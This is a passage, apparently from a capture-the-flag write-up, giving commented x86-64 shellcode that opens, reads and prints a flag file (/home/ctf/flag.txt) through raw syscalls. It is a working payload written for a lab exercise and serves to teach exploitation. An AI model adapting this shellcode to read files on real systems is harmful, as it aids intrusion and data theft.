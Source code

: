 Here is some simple, unoptimized shellcode. I tried to comment it as best I could:

```
<pre id="vimCodeElement"><span class="Identifier">bits</span> <span class="Number">64</span>

<span class="Comment">;;; OPEN</span>

  <span class="Identifier">mov</span> <span class="Identifier">rax</span>, <span class="Number">2</span> <span class="Comment">; Syscall 2 = sys_open</span>
  <span class="Identifier">call</span> <span class="Identifier">getfilename</span> <span class="Comment">; Pushes the next address onto the stack and jumps down</span>
  <span class="Identifier">db</span> "/<span class="Identifier">home</span>/<span class="Identifier">ctf</span>/<span class="Identifier">flag</span><span class="Statement">.txt</span>",<span class="Number">0 </span><span class="Comment">; The literal flag, null terminated</span>
<span class="Identifier">getfilename</span>:
  <span class="Identifier">pop</span> <span class="Identifier">rdi</span> <span class="Comment">; Pop the top of the stack (which is the filename) into rdi</span>
  <span class="Identifier">mov</span> <span class="Identifier">rsi</span>, <span class="Number">0 </span><span class="Comment">; Flags = 0</span>
  <span class="Identifier">mov</span> <span class="Identifier">rdx</span>, <span class="Number">0 </span><span class="Comment">; Mode = 0</span>
  <span class="Identifier">syscall</span> <span class="Comment">; Perform sys_open() syscall, the file handle is returned in rax</span>

<span class="Comment">;;; READ</span>

  <span class="Identifier">push</span> <span class="Identifier">rdi</span> <span class="Comment">; Temporarly store the filename pointer</span>
  <span class="Identifier">push</span> <span class="Identifier">rax</span> <span class="Comment">; Temporarily store the handle</span>

  <span class="Identifier">mov</span> <span class="Identifier">rax</span>, <span class="Number">0 </span><span class="Comment">; Syscall 0 = sys_read</span>
  <span class="Identifier">pop</span> <span class="Identifier">rdi</span> <span class="Comment">; Move the file handle into rdi</span>
  <span class="Identifier">pop</span> <span class="Identifier">rsi</span> <span class="Comment">; Use the same buffer where the filename pointer is stored (it's readable and writable)</span>
  <span class="Identifier">mov</span> <span class="Identifier">rdx</span>, <span class="Number">30</span> <span class="Comment">; rdx is the count</span>
  <span class="Identifier">syscall</span> <span class="Comment">; Perform sys_read() syscall, reading from the opened file</span>

<span class="Comment">;;; WRITE</span>

  <span class="Identifier">mov</span> <span class="Identifier">rax</span>, <span class="Number">1</span> <span class="Comment">; Syscall 1 = sys_write</span>
  <span class="Identifier">mov</span> <span class="Identifier">rdi</span>, <span class="Number">1</span> <span class="Comment">; File handle to write to = stdout = 1</span>
  <span class="Comment">; (rsi is already the buffer)</span>
  <span class="Identifier">mov</span> <span class="Identifier">rdx</span>, <span class="Number">30</span> <span class="Comment">; rdx is the count again</span>
  <span class="Identifier">syscall</span> <span class="Comment">; Perform the sys_write syscall, writing the data to stdout</span>

<span class="Comment">;;; EXIT</span>
  <span class="Identifier">mov</span> <span class="Identifier">rax</span>, <span class="Number">60</span> <span class="Comment">; Syscall 60 = exit</span>
  <span class="Identifier">mov</span> <span class="Identifier">rdi</span>, <span class="Number">0 </span><span class="Comment">; Exit with code 0</span>
  <span class="Identifier">syscall</span> <span class="Comment">; Perform an exit</span>
```
